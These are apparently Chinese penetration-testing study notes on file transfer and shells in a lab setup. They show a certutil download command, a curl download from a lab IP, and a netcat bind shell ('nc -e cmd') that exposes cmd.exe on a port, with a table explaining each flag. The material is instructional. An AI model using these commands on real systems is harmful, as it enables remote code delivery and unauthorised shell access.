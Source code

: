 <br/>

# 第5天：基础入门-反弹SHELL&不回显带外&正反向连接&防火墙出入站&文件下载



## 文件上传下载

虚拟机在要下载的文件目录下面打开cmd

并且执行：

```
python -m http.server 8000
```

这会让虚拟机成为一个 web 服务器

![image-20250522110637884](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170029527-386994155.png)

棱角社区生成命令

![image-20250522110650721](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170029862-105615309.png)

找到命令

```
certutil.exe -urlcache -split -f http://172.22.173.181:8000/1.txt 1.txt
```

主机执行

![image-20250522110715665](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170030277-1580121235.png)

文件下载完成

Linux也是一样的

```
curl http://172.22.173.181:8000/1.txt -o 1.txt
```

![image-20250522110827134](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170030613-2066773023.png)



## 反弹shell

### 正向连接：本地监听等待对方连接让对方操作本地

**Linux->Windows**

```
nc -e cmd -lvvp 5566
```

| 参数         | 含义                                                         |
| ------------ | ------------------------------------------------------------ |
| `nc`         | Netcat 命令行工具（功能强大的 TCP/UDP 网络调试工具）         |
| `-e cmd`     | **执行 cmd.exe（Windows 的命令行）**，把这个 shell 接入 socket 连接 |
| `-l`         | 监听模式（listen）                                           |
| `-v`         | 显示详细信息（verbose）                                      |
| `-v`（重复） | 更详细（very verbose）                                       |
| `-p 5566`    | 在本地 **5566 端口监听**                                     |
